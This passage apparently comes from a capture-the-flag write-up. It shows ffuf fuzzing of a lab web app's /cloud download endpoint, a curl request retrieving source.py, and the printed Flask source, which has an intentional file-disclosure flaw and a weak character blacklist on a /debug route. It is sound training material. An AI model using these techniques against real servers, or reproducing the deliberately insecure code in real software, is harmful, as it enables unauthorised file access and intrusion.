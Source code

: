 The files seem empty. I try to fuzz for any type of python file I can download: 
```shell
ffuf -w ~/Downloads/SecLists/Discovery/Web-Content/common.txt -u http://10.10.158.95:7777/cloud -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "download=FUZZ.py" -fc 404,400

source        [Status: 200, Size: 2898, Words: 529, Lines: 87, Duration: 219ms]  
templates     [Status: 200, Size: 45, Words: 6, Lines: 4, Duration: 216ms]
```

To download `source.py` I run:
```shell
curl http://10.10.158.95:7777/cloud -X POST -d 'download=source.py'
```
```shell
from flask import *  
import hashlib  
import os  
import ip # from .  
import debugpassword # from .  
import pwn  
  
app = Flask(__name__)  
app.secret_key = os.urandom(32)  
password = str(open('supersecrettip.txt').readline().strip())  
  
def illegal_chars_check(input):  
   illegal = "'&;%"  
   error = ""  
   if any(char in illegal for char in input):  
       error = "Illegal characters found!"  
       return True, error  
   else:  
       return False, error  
  
@app.route("/cloud", methods=["GET", "POST"])    
def download():  
   if request.method == "GET":  
       return render_template('cloud.html')  
   else:  
       download = request.form['download']  
       if download == 'source.py':  
           return send_file('./source.py', as_attachment=True)  
       if download[-4:] == '.txt':  
           print('download: ' + download)  
           return send_from_directory(app.root_path, download, as_attachment=True)  
       else:  
           return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)  
           # return render_template('cloud.html', msg="Network error occurred")  
  
@app.route("/debug", methods=["GET"])    
def debug():  
   debug = request.args.get('debug')  
   user_password = request.args.get('password')  
      
   if not user_password or not debug:  
       return render_template("debug.html")  
   result, error = illegal_chars_check(debug)  
   if result is True:  
       return render_template("debug.html", error=error)  
  
   # I am not very eXperienced with encryptiOns, so heRe you go!  
   encrypted_pass = str(debugpassword.get_encrypted(user_password))  
   if encrypted_pass != password:  
       return render_template("debug.html", error="Wrong password.")  
      
```
